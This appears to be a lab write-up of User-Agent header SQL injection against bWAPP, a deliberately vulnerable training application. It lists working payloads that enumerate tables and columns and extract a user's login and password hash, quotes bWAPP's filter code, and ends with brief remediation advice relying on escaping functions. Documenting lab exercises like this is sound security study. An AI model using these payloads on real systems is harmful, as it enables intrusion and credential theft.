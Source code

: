 # 1. Low
On first arrived on `/bWAPP/sqli_17.php`, I Found that the server is showing 3 Object:
- Date/time arrived
- User-Agent 
- IP Address
 
![SQL_S-UA_L0.png](image/SQL_S-UA_L0.png)

With 3 of following data, I know that server stored User-Agent from Client requested. To make sure, I changed UA to `This Is UA'` and following is the result

![SQL_S-UA_L1.png](image/SQL_S-UA_L1.png)

After closing single quote, there was Error on `My_IP')` So I guess that the full parameter might be liked `SELECT ('DATE','UserAgent','IPAdress')` So when we Input single quote >> `SELECT ('DATE','UserAgent'','/ERROR_HERE/IPAdress')`. I going to complete the statements and put below error code with following like:
- Payload: `SELECT ('DATE','UserAgent', 'IpAddress')#,'IPAdress')`

![SQL_S-UA_L2.png](image/SQL_S-UA_L2.png)

Yea, It's success to changed. Before I noticed that the server return ERROR statement from SQL, so... Let's try to select some tables:
- Payload: `SELECT ('DATE','UserAgent', (SELECT @@VERSION))#,'IPAdress')`

![[SQL_S-UA_L3.png]]

- Payload: `SELECT ('DATE','UserAgent', (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.Tables WHERE TABLE_SCHEMA=database()))#,'IPAdress')`

![SQL_S-UA_L4.png](image/SQL_S-UA_L4.png)

- Payload: `SELECT ('DATE','UserAgent', (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'))#,'IPAdress')`

![SQL_S-UA_L5.png](image/SQL_S-UA_L5.png)

- Payload: `SELECT ('DATE','UserAgent', (SELECT GROUP_CONCAT(login,'|',password) FROM users WHERE login='bee'))#`

![SQL_S-UA_L6.png](image/SQL_S-UA_L6.png)

---
# 2. Medium
In the Lab, there was using XSS and SQL Validation which I mentioned in previous labs so, I stop here.

```php
function sqli($data){
    include("connect_i.php");  
    switch ($_COOKIE["security_level"]){  
        case "0" :  
            $data = no_check($data);  
            break;  
        case "1" :  
            $data = sqli_check_1($data);  
            break;  
        case "2" :  
            $data = sqli_check_3($link, $data);  
            break;  
        default :  
            $data = no_check($data);  
            break;  
    }  
    return $data;  
}  
  
function xss($data){  
    switch ($_COOKIE["security_level"]){  
        case "0" :  
            $data = no_check($data);  
            break;  
        case "1" :  
            $data = xss_check_4($data);  
            break;  
        case "2" :  
            $data = xss_check_3($data);  
            break;  
        default :  
            $data = no_check($data);  
            break;  
    }  
    return $data;  
}
```

---
# 3. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)